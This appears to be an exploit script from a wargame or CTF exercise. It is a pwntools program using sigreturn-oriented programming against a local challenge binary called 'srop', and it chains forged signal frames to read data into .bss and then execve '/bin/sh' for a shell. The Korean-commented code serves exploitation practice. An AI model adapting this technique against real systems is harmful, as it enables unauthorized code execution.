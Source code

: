 ```python
# srop.py
from pwn import *

context.log_level = 'debug'

context.clear(arch='amd64')
p = process("./srop")
elf = ELF("./srop")
gadget = 0x40113e # pop rax; syscall
syscall = 0x40113f
binsh = "/bin/sh\\x00"
read_got = elf.got['read']
_start = elf.symbols['_start']
frame = SigreturnFrame()
#read(0, 0x404030, 0x1000)
frame.rax = 0        # SYS_read
frame.rsi = 0x404030 # bss 영역 주소
frame.rdx = 0x1000
frame.rdi = 0
frame.rip = syscall
frame.rsp = 0x404030 
payload = b"A"*16
payload += b"B"*8
payload += p64(gadget)
payload += p64(15) # sigreturn

payload += bytes(frame)
pause()
p.sendline(payload)
sleep(1)
frame2 = SigreturnFrame()
frame2.rip = syscall
frame2.rax = 0x3b # execve
frame2.rsp = 0x404328 # 아무 값
frame2.rdi = 0x404138 # bss에 쓰여진 /bin/sh 의 주소
ropa = p64(gadget)
ropa += p64(15)
ropa += bytes(frame2)

ropa += b"/bin/sh\\x00" # /bin/sh의 문자열을 직접 씀
p.sendline(ropa)
p.interactive()
```
![](https://i.imgur.com/z37Ekhd.png)

